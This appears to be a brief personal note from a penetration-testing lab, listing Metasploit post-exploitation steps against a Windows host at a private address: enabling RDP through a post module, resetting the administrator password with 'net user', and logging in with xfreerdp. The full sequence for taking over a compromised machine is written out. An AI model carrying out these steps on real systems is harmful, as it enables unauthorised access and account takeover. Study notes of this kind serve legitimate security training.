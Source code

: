 

- after exploitiation = background 
- use post/windows/manage/enable_rdp
- set session 1 = run 
- shell 
- net users (check availabel users )
- net user administrator hacker_123321 (change administrator password, you need privikige to do this)
- Connect to the RDP service using xfreerdp utility and administrator account.
	- xfreerdp /u:administrator /p:hacker_123321 /v:10.0.0.68
	